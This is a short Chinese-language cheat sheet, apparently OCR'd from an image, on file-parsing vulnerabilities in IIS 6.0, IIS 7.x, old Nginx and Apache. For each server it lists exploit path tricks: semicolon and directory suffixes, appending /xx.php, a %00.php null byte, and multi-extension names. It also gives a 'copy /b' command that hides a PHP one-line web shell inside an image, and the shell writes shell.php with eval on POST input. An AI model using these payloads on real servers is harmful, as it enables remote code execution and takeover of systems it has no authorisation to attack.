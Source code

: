 
6 web服务器解析漏洞 
===================================

www.cnseay.com/806/

6.1 IIS 6.0 
-----------

- 后缀解析： /xx.asp;.jpg

- 目录解析： /xx.asp/xx.jpg
（xx.asp目录下可解析任何文件）

- 默认解析： xx.asa xx.cer xx.cdx
（IIS默认配置中，该类文件由asp.dll解析）

- 发散思维： /xx.asa/xx.jpg /xx.cer/xx.jpg /xx.cdx/xx.jpg

6.2 IIS 7.0/IIS 7.5/Nginx&lt;=0.8.37 
------------------------------------

默认Fast-CGI开启状况下，在文件路径（/xx.jpg）后加上/xx.php，即/xx.jpg/xx.php会被解析为php文件。

xx.jpg为一句话图片马，制作过程如下：

`copy yy.jpg/b + zz.txt/a xx.jpg`

/b：二进制模式

/a：ASCII模式

yy.jpg ：正常图片文件

zz.txt ：一句话 &lt;?PHP
fputs(fopen(‘shell.php’,’w’),’&lt;?PHP
eval(\$\_POST\youxiu\)?&gt;’);?&gt;

shell.php youxiu

6.3 Nginx&lt;=0.8.37 
--------------------

在Fast-CGI关闭的情况下，Nginx仍然存在解析漏洞：

在文件路劲(xx.jpg)后面加上%00.php ，即
xx.jpg%00.php
会被当做php文件来解析

参照《Nginx空字节可远程执行代码漏洞》

6.4 Apache 
----------

- 后缀解析： test.php.x1.x2.x3
（x1,x2,x3为没有在mime.types文件中定义的文件类型）

Apache将从右往左开始判断后缀，若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析。

Apache可解析： php | php3 | phtml

参照《Apache漏洞之后缀名解析漏洞》
